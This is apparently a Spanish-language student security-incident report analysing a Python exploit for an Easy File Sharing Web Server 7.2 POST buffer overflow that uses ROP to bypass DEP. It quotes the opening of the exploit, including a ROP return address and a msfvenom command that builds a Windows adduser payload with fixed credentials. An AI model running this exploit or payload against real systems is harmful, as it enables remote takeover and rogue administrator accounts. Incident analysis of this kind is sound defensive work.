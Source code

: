 # Informe Técnico

Hecho por:

- Víctor Jiménez

## Índice

1. [Introducción](#1-introducción)
2. [Muestra del código](#2-muestra-del-código)
3. [Clasificación del incidente](#3-clasificación-del-incidente)
4. [Valoración del incidente](#4-valoración-del-incidente)
5. [Documentación del incidente](#5-documentación-del-incidente)

## Informe Técnico de Incidente de Seguridad

| **Grupo**  | 3          |
| ---------- | ---------- |
| **Fecha**  | 16/12/2024 |
| **TLP**    | AMBER      |
| **Nombre** | 2.e        |

## 1. Introducción

Este informe analiza un archivo Python identificado en el sistema, diseñado para explotar una vulnerabilidad en la aplicación **Easy File Sharing Web Server v7.2**. Este exploit permite la ejecución de código remoto (RCE) mediante un desbordamiento de búfer en la función `POST`, aprovechando técnicas como la evasión de DEP (protección de ejecución de datos) a través de cadenas de programación orientadas a retorno (**ROP**, por sus siglas en inglés).

El objetivo del exploit es comprometer el sistema, permitiendo al atacante crear un usuario con privilegios administrativos.

## 2. Muestra del código

El archivo Python encontrado es el siguiente:

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Exploit Title: Easy File Sharing Web Server 7.2 - 'POST' Buffer Overflow (DEP Bypass with ROP)
# Software Link: http://www.sharing-file.com/efssetup.exe
# Created : Ihacklabs Limited
# Version: Easy File Sharing Web Server v7.2
# Tested on: Windows 2012 R2 x64

import socket
import struct
import sys

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <host>\n"
    exit()

# 0x1002280a :  # ADD ESP,1004 # RETN    ** [ImageLoad.dll] **   |  ascii {PAGE_EXECUTE_READ}
ret = struct.pack("<I", 0x1002280a)


#msfvenom -p windows/adduser user=ihacklabs password=Ihack12/ -e x86/alpha_mixed -v Shellcode4 -f python                                                                  (master✱)
#No platform was selected, choosing Msf::Module::Platform::Windows from the payload
```
